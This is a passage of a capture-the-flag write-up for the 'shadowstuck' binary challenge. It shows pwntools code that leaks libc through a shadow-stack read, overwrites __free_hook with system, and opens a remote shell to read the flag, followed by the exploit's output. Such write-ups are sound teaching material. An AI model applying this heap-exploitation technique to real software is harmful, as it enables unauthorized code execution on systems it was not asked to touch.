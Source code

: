 The shadow stack prevents any exploits that directly target the return pointer. This means that our best bet is probably to just edit `__free_hook` to spawn a shell, rather than having to deal with any of the shadow stack nonsense.

To start, we'll need a libc leak. From gdb experimentation, I realised that the location of the shadow stack is always a constant distance away from the libc page itself. For instance, on a machine I had with a similar (but not identical) libc version:
```py
0x00007ffff7dcd000 0x00007ffff7df2000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7df2000 0x00007ffff7f6a000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7f6a000 0x00007ffff7fb4000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fb4000 0x00007ffff7fb5000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fb5000 0x00007ffff7fb8000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fb8000 0x00007ffff7fbb000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fbb000 0x00007ffff7fc1000 0x0000000000000000 rw-
0x00007ffff7fc8000 0x00007ffff7fc9000 0x0000000000000000 ---
0x00007ffff7fc9000 0x00007ffff7fca000 0x0000000000000000 rw- [Shadow Stack]
```
ASLR is enabled in the vmmap dump above, but even with ASLR enabled, the offset between libc and the `mmap()`'d shadow stack is still a constant, albeit a different one.

To find the actual constant offset on the remote, we can abuse the exploit steps above to run `kems_read()` on the shadow stack itself, leaking out the location of `__libc_start_main_ret`:
```python
p = KEMS('challenges.ctf.kaf.sh', 8000)
shadow_stack = unpack_hex(p.recvline())
p.add(b'me')
p.fire(b'me', b'a'*0x10 + pack(shadow_stack+1)[:6]) # `fgets()` will stop reading on a null byte, so we'll add 1 to the address.
libc_leak = p.read(1).split(b': ')[-1][:5]   # This is a byte leak of __libc_start_main_ret[1:6].
context.libc.address = (unpack_bytes(libc_leak,5)-context.libc.symbols['__libc_start_main_ret']//0x100)*0x100
SHADOW_OFFSET = shadow_stack-context.libc.address
log.info('The distance between libc and the shadow stack is ' + hex(SHADOW_OFFSET))
```
After that, we'll be able to use the given pointer of the shadow stack to directly calculate the location of `__free_hook`. Once that's possible, it's trivial to recycle the exploit to call `system("/bin/sh")` via the `kems_fire()` method, which gives us a call to `free()` with user-controlled input.
```python
p = KEMS('challenges.ctf.kaf.sh', 8000)
context.libc.address = unpack_hex(p.recvline())-SHADOW_OFFSET
p.add(b'me')
# Set the employee_linked_list->next pointer to free_hook.
p.fire(b'me', b'a'*0x10 + pack(context.libc.symbols['__free_hook'])[:6])
p.change(1, pack(context.libc.symbols['system'])[:6])
p.fire(b'', b'/bin/sh') # The 0th employee has a null name at this point, hence the b''.
log.info('Opening shell.')
p.interactive()
```
That's it.
```python
[+] Opening connection to challenges.ctf.kaf.sh on port 8000: Done
[*] The distance between libc and the shadow stack is -0x2000
[+] Opening connection to challenges.ctf.kaf.sh on port 8000: Done
[*] Opening shell.
[*] Switching to interactive mode
$ ls
flag
shadowstuck
ynetd
$ cat flag
KAF{1_SUR3_H0P3_C3T_1S_B3TTER_WR1TTEN}
$
```